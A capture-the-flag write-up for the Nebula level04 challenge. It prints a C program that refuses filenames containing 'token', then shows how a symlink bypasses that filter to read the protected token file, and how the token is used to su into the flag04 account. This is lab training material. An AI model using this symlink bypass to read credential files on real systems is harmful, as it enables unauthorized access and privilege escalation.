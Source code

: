 ## Challenge
This level requires you to read the token file, but the code restricts the files that can be read.

Find a way to bypass it :)

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```
Let's analyze the code:
1. **Fail** if no argument (filename) supplied
2. **Fail** if filename contains the string "token"
3. Open filename for reading
4. **Fail** if file can't open
5. Read 1024 bytes to `buf`
6. **Fail** if can't read file
7. Write `buf` to `stdout`

To bypass this protection we can create a `symlink` to `token` and name it something else.
```console
ln -s /home/flag04/token /home/level04/tkn
```
Now we will pass the symlink filename as the argument.
```console
level04@nebula:/home/flag04$ ./flag04 /home/level04/tkn
06508b5e-8909-4f38-b630-fdb148a848a2
```
Yay! use the token to login to flag04, and `getflag` as usual.
```console
level04@nebula:/home/flag04$ su flag04
Password: [enter token]
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
